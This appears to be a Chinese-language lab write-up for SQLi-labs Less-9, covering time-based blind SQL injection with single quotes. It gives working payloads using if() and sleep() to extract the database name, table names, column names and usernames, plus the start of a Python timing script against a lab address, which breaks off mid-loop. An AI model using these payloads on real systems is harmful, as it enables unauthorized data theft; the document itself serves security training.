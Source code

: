 ![image-20211207142732019](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056831.png)



## 实验九	基于时间的GET单引号盲注

常见包裹形式：

```
1，(1)，((1))
'1'，('1')，(('1'))
"1"，("1")，(("1"))
```

这里都试了一下，都可以正常回显。

再测试是否存在时间盲注，发现只有`?id=1' and sleep(5) %23`有明显延迟，存在**字符型时间盲注**。

> 时间盲注多与`IF(expr1,expr2,expr3)`结合使用，此if语句含义是：如果`expr1`是`TRUE`，则`IF()`的返回值为`expr2`；否则返回值则为`expr3`。
> 例：
> `if (length(database())>1,1,sleep(5))`，查看当前数据库的长度是否大于1，大于1则查询1，小于1则MySQL查询休眠5秒
> `if (substr(database()),1,1='s',1,sleep(5))`，查看当前数据库的第一个字母是否为’s’，为’s’则查询1，不为’s’则MySQL查询休眠5秒

所以这道题和第八题类似，只是增加了if语句。

判断当前数据库长度：

```
?id=1' and if(length(database())=8,1,sleep(5)) %23
```

查看当前数据库的第一个字母：

```
?id=1' and if(substr(database(),1,1)='a',1,sleep(5)) %23
```

查看security库下的第一张表的第一个字母：

```
?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='s',1,sleep(5)) %23
```

查看users表下的第一个字段的第一个字母：

```
?id=1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='s',1,sleep(5)) %23
```

查username字段的第一个值的第一个字母：

```
?id=1' and if(substr((select username from security.users limit 0,1),1,1)='s',1,sleep(5)) %23
```



也可以对实验八的脚本进行修改，增加time：

```python
from urllib import request
from urllib import parse
from time import  time

url = "http://10.12.202.251:21041/Less-9/?id="

#1 查数据库

database_length = 0
while True:
    param = "1' and if(length(database())="+str(database_length)+",sleep(0.1),1) #"
    t = time()
    response = request.urlopen(url + parse.quote(param))
```